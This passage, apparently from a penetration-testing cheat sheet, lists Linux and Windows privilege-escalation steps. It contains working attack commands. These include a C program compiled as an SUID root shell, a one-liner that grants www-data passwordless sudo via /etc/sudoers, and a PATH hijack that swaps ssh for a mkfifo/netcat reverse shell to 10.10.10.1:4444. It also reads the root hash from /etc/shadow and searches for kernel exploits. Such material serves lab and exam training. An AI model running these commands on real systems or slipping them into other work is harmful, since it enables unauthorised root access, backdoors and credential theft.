              Building the SUID Shell binary
              gcc -o suid suid.c
              For 32 bit:
              gcc -m32 -o suid suid.c

    -   Create and compile an SUID from a limited shell (no file transfer)

              echo "int main(void){\nsetgid(0);\nsetuid(0);\nsystem(\"/bin/sh\");\n}" >privsc.c
              gcc privsc.c -o privsc

-   Handy command if you can get a root user to run it. Add the www-data user to Root SUDO group with no password requirement:

    `echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update`

-   You may find a command is being executed by the root user, you may be able to modify the system PATH environment variable
    to execute your command instead.  In the example below, ssh is replaced with a reverse shell SUID connecting to 10.10.10.1 on
    port 4444.

         set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"
         echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh
         chmod +x ssh

-   SearchSploit

              searchsploit –uncsearchsploit apache 2.2
              searchsploit "Linux Kernel"
              searchsploit linux 2.6 | grep -i ubuntu | grep local
              searchsploit slmail

 -   Kernel Exploit Suggestions for Kernel Version 3.0.0

     `./usr/share/linux-exploit-suggester/Linux_Exploit_Suggester.pl -k 3.0.0`

-   Precompiled Linux Kernel Exploits  - ***Super handy if GCC is not installed on the target machine!***

    [*https://www.kernel-exploits.com/*](https://www.kernel-exploits.com/)

-   Collect root password

    `cat /etc/shadow |grep root`

-   Find and display the proof.txt or flag.txt - LOOT!

            cat `find / -name proof.txt -print`

-   Windows Privilege Escalation
    --------------------------------------------------------------------------------------------------------------------------

-   Windows Privilege Escalation resource
    http://www.fuzzysecurity.com/tutorials/16.html

-   Try the getsystem command using meterpreter - rarely works but is worth a try.

    `meterpreter > getsystem`
